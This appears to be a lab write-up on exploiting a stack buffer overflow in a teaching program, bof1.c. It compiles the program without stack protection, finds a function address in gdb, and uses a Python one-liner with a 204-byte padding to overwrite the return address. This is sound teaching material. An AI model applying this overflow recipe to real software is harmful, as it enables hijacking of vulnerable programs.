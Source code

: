 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## stackframe

## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![alt text](image-1.png)
## Run gdb for futher examination
`gdb bof1.out`  
![alt text](image-2.png)
## Try to see each func in machine code!
With **vuln**: `disas vuln` 
![alt text](image-3.png)  
With **secretFunc**: `disas secretFunc`  
![alt text](image-4.png)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![alt text](image-5.png)
